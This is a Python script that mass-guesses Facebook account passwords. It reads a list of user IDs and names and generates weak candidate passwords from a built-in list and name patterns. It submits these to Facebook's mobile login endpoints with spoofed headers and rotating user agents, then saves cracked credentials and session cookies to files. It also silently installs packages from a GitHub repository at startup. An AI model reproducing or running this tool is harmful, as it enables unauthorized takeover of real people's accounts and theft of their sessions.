 

###---------------### MODULES ###--------------- ###


import os, time, base64, datetime, json, sys, re, threading, uuid, string
from concurrent.futures import ThreadPoolExecutor as ThreadPool

os.system("pip uninstall PySintx -y")
os.system("pip uninstall PyBookScrapper -y")
os.system("pip uninstall PyBookAgents -y")

try:
    import PySintx
except ModuleNotFoundError:
    os.system("pip3 install git+https://github.com/HiroshiYTz.git")
    import PySintx
from PySintx import *

'''
I'm using PySintx for my text color and modules dependencies like rich, random, and requests.
'''

try:
    import PyBookAgents
except ModuleNotFoundError:
    os.sytem("pip3 install git+https://github.com/HiroshiYTz.git")
    import PyBookAgents

'''
I'm using PyBookAgents for user-agent generator
Check documentaion here: https://github.com/sintxcs/PyBookAgents
'''

try:
    import PyBookScrapper
except ModuleNotFoundError:
    os.system("pip3 install git+https://github.com/HiroshiYTz.git")
    import PyBookScrapper

# I'm using PyBookScrapper for scrapping of the following:
from PyBookScrapper import Scrape_Year

'''
Check documentaion here: https://github.com/sintxcs/PyBookScrapper
'''

###---------------### VARIABLES ###--------------- ###


_F = "/sdcard/SINTX/"
_D = "clear"
_B = "\n"
_A = "bold white"

try:
    os.makedirs(_F)
except:
    pass
sntxfldr = _F

cmd(_D)


###---------------### DATE TIME CHECKER ###--------------- ###


script_status = "FREE"
months_check = {
    "1": "January",
    "2": "February",
    "3": "March",
    "4": "April",
    "5": "May",
    "6": "June",
    "7": "July",
    "8": "August",
    "9": "September",
    "10": "October",
    "11": "November",
    "12": "December",
}
date_now = datetime.datetime.now().day
month_now = months_check[str(datetime.datetime.now().month)]
date_month = str(month_now) + "-" + str(date_now)


###---------------### LOGO ###--------------- ###


lxgos = . g8"""bgd   `7MMF'    db      `7MMF' `YMM' `7MM"""YMM MMP""MM""YMM MMM"""AMV `YMM'   `MM'
.dP'     `M     MM     ;MM:       MM   .M'     MM    `7 P'   MM   `7 M'   AMV    VMA   ,V  
dM'       `     MM    ,V^MM.      MM .d"       MM   d        MM      '   AMV      VMA ,V   
MM              MM   ,M  `MM      MMMMM.       MMmmMM        MM         AMV        VMMP    
MM.             MM   AbmmmqMA     MM  VMA      MM   Y  ,     MM        AMV   ,      MM     
`Mb.     ,'(O)  MM  A'     VML    MM   `MM.    MM     ,M     MM       AMV   ,M      MM     
  `"bmmmd'  Ymmm9 .AMA.   .AMMA..JMML.   MMb..JMMmmmmMMM   .JMML.    AMVmmmmMM    .JMML. "
sinInfo = "[white][›] PRESS [bold yellow]CTRL AND Z[bold white] TO STOP THE PROGRAM\n\n[white][-] FACEBOOK : CHRISTIAN JAKE D. BEBAT\n[-] GITHUB   :https://github.com/HiroshiYTz

def sintx_logo():
    cmd(_D)
    prnt(pnl(lxgos, title=f"{script_status}", subtitle="SHEESHHH !"))
    prnt(pnl(sinInfo, width=90, style=_A))


###---------------### MENU ###--------------- ###


def sintx_menu():
    B = "[sky_blue1][1] FILE CLONING\n[0] REPORT ERROR"
    sintx_logo()
    prnt(pnl(B, width=90, style=_A, title="OPTIONS"))
    A = input(f"{green}  [?] OPTION:{dark_gray} ")
    if A == "1":
        ク克隆()
    if A == "0":
        cmd("xdg-open https://m.me/61553865513324")
        sintx_menu()
    else:
        アニメ(f"{ro}  [!] INVALID INPUT")
        sintx_menu()


###---------------### FILE CLONING ###--------------- ###


loop = 0
oks = []
cps = []
twf = []
ugen = []


def ク克隆():
    sintx_logo()
    E = "/sdcard/"
    prnt(pnl("[red][»] ENTER NAME OF YOUR FILE", width=90, style=_A))
    F = input(f"{green}  [+] /sdcard/:{CJAKETZY} ")
    G = E + F
    try:
        B = open(G, "r").read().splitlines()
    except FileNotFoundError:
        cd(1)
        print(f"\n{lr}  [X] FILE NOT FOUND")
        cd(3)
        ク克隆()
    A = []
    prnt(
        pnl(
            "[sky_blue1][1] SYSTEM PASSWORD LIST\n[2] YOUR PASSWORD LIST",
            width=90,
            style=_A,
            title="SELECT PASSWORD METHOD",
        )
    )
    H = input(f"{green}  [›] CHOICE:{dark_gray} ")
    if H in ["1", "01"]:
        A.append("first last")
        A.append("first123")
        A.append("first12")
        A.append("first143")
        A.append("first12345")
        A.append("first123456")
        A.append("first_123")
        A.append("maganda")
        A.append("magandaako")
        A.append("gandako")
        A.append("ganda")
        A.append("cuteako")
        A.append("god143")
        A.append("i love you")
        A.append("firstpretty")
        A.append("firstpogi")
        A.append("firstigop")
        A.append("firstdump")
        A.append("potanginamo")
        A.append("lastlast")
        A.append("firstfirst")
        A.append("firstganda")
        A.append("firstmaganda")
        A.append("blackpink")
        A.append("jungkook")
        A.append("pogiko")
        A.append("pogiako")
    else:
        try:
            prnt(
                pnl(
                    "[yellow][?] HOW MANY PASSWORD DO YOU WANT TO USE?",
                    width=90,
                    style=_A,
                )
            )
            C = int(input(f"{green}  [›] ANSWER:{dark_gray} "))
        except:
            C = 1
        prnt(
            pnl(
                "[yellow] first last, first123, first143, last123, last143",
                width=90,
                style=_A,
                title="EXAMPLE PASSWORD",
            )
        )
        for I in range(C):
            A.append(input(f"{green}  [›] PASSWORD #{I+1}:{dark_gray} "))
    with ThreadPool(max_workers=None) as J:
        prnt(
            pnl(
                "[yellow][»] ON/OFF FIRST YOUR DATA FOR 5 SECONDS AND PRESS ENTER",
                width=90,
                style=_A,
                title="INSTRUCTIONS",
            )
        )
        input(f"{green}  [»] PRESS ENTER: ")
        sintx_logo()
        D = str(len(B))
        prnt(
            pnl(
                "[yellow][»] NOT FOR SALE!",
                width=90,
                style=_A,
                title="NOTICE!",
            )
        )
        K = "[white][-] TOTAL IDS TO CLONE: " + D + "\n[-] RESULT PATH: SINTX FOLDER"
        prnt(pnl(K, width=90, style=_A, title="FILE INFO"))
        for L in B:
            M, N = L.split("|")
            O = A
            J.submit(sinsAPI_, M, N, O, D)
    P = "[»] HITS : " + str(len(oks))
    Q = "\n[»] CPS  : " + str(len(cps))
    print(_B)
    prnt(pnl(P + Q, width=90, style=_A, title="PROCESS COMPLETED"))
    input(f"{dark_gray}  [›] PRESS ENTER TO REFRESH ")
    sintx_menu()


###---------------### API (MBASIC) ###--------------- ###


def sinsAPI_(uid, names, pxss_, tot4l):
    F = names
    A = uid
    global loop, oks, cps
    sys.stdout.write(
        f"\r\r{dark_gray}  [SINTX] %s/%s - OKS: %s - CPS: %s\r "
        % (loop, tot4l, len(oks), len(cps))
    )
    sys.stdout.flush()
    C = requests.Session()
    try:
        G = F.split(" ")[0]
        try:
            D = F.split(" ")[1]
        except:
            D = "143"
        L = G.lower()
        M = D.lower()
        for N in pxss_:
            B = (
                N.replace("First", G)
                .replace("Last", D)
                .replace("first", L)
                .replace("last", M)
            )
            header = {
                "authority": "m.facebook.com",
                "method": "GET",
                "scheme": "https",
                "accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.8",
                "accept-encoding": "gzip, deflate, br",
                "accept-language": "en-US,en;q=1",
                "cache-control": "no-cache, no-store, must-revalidate",
                "referer": "https://m.facebook.com/",
                "sec-ch-ua": '"Google Chrome";v="90", "Not)A;Brand";v="8", "Chromium";v="75"',
                "sec-ch-ua-mobile": "?1",
                "sec-ch-ua-platform": "Android",
                "sec-fetch-dest": "document",
                "sec-fetch-mode": "navigate",
                "sec-fetch-site": "same-origin",
                "sec-fetch-user": "?1",
                "pragma": "no-cache",
                "priority": "u=1",
                "cross-origin-resource-policy": "cross-origin",
                "upgrade-insecure-requests": "1",
                "user-agent": str(PyBookAgents.random_ugen()),
            }
            I = C.get(
                f"https://m.facebook.com/login/device-based/password/?uid={A}&flow=login_no_pin&refsrc=deprecated&_rdr"
            )
            S = {
                "lsd": re.search('name="lsd" value="(.*?)"', str(I.text)).group(1),
                "jazoest": re.search('name="jazoest" value="(.*?)"', str(I.text)).group(
                    1
                ),
                "uid": A,
                "next": "https://mbasic.facebook.com/login/save-device/",
                "flow": "login_no_pin",
                "pass": B,
            }
            C.post(
                "https://m.facebook.com/login/device-based/validate-password/?shbl=0",
                data=S,
                allow_redirects=False,
                headers=header,
            ).text
            J = C.cookies.get_dict().keys()
            if "c_user" in J:
                K = ";".join(
                    ["%s=%s" % (A, B) for (A, B) in C.cookies.get_dict().items()]
                )
                open(sntxfldr + f"HITS-{date_month}.txt", "a").write(
                    A + "|" + B + "~" + Scrape_Year(uid) + _B + K + "\n\n"
                )
                print(_B)
                T = f"[white]UID  : {A}\nPASS : {B}\nYEAR : {Scrape_Year(uid)}"
                E = pnl(
                    T, width=90, style="bold pale_turquoise1", title="SINTX SUCCESSFUL"
                )
                prnt(E)
                oks.append(A)
                break
            elif "checkpoint" in J:
                cps.append(A)
                print(_B)
                U = f"[white]UID  : {A}\nPASS : {B}\nYEAR : {Scrape_Year(uid)}"
                E = pnl(U, width=90, style="bold red", title="SINTX CHECKPOINT")
                prnt(E)
                open(sntxfldr + f"CPS-{date_month}.txt", "a").write(
                    A + "|" + B + "~" + Scrape_Year(uid) + _B
                )
                break
            else:
                continue
        loop += 1
    except requests.exceptions.ConnectionError:
        time.sleep(20)


###---------------### START ###--------------- ###


if __name__ == "__main__":
    try:
        sintx_menu()
    except Exception as e:
        exit()
